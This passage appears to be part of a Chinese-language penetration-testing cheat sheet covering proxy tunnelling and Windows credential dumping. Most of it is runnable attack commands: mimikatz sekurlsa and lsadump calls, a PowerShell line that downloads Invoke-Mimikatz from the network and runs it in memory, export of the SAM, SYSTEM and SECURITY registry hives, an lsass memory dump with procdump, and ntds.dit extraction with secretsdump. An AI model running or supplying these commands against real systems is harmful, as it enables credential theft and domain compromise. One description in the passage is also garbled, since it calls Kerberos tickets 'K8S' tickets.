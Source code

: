   `frpc.exe -c frpc.ini`

* proxychains

  `leafpad /etc/proxychains.conf`

  ```
  #socks5	 127.0.0.1 5555 admin admin
  socks4 127.0.0.1 1080
  ```

  `proxychains nmap -Pn sT -p3389,22,3306 127.0.0.1`

#### 3.2口令获取

Windows用户hash存放位置

`C:\windows\system32\config\SAM` //工作组

`%SystemRoot%\ntds\ntds.dit` //域

* mimikatz

  mimikatz 是法国技术大神 Benjamin Delpy 使用 C 语言写的一款轻量级系统调试工具，该工具可以从内存中提取明文密码、散列值、PIN 和 K8S 票据，还可以执行哈希传递、票据传递、构建黄金票据等

  `mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"`

​	`powershell.exe -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"`

* 导出文件

  ```bash
  reg save HKLM\SAM sam.hiv
  reg save HKLM\SYSTEM system.hiv
  reg save HKLM\SECURITY security.hiv
  
  mimikatz.exe
  lsadump::sam /sam:sam.hiv /system:system.hiv
  ```

* [procdump](http://download.sysinternals.com/files/Procdump.zip)

  Procdump 是微软官方发布的工具,它用于将正在运行的进程的内存转储到磁盘上的一个核心文件中。然后可以用调试器对这个核心文件进行分析，了解转储时进程的状态。

  `procdump -accepteula -ma lsass.exe lsass`

  `mimikatz.exe`

  `sekurlsa::minidump lsass.DMP`

  `sekurlsa::logonPasswords full`

* ### 导出 ntds.dit

  `Ntdsutil "activate instance ntds" Ifm "create full C:\ntdsutil" Quit quit`

  [impacket工具包](http://github.com/SecureAuthCorp/impacket)

  `python3 secretsdump.py -ntds ntds.dit -system system.hiv LOCAL`
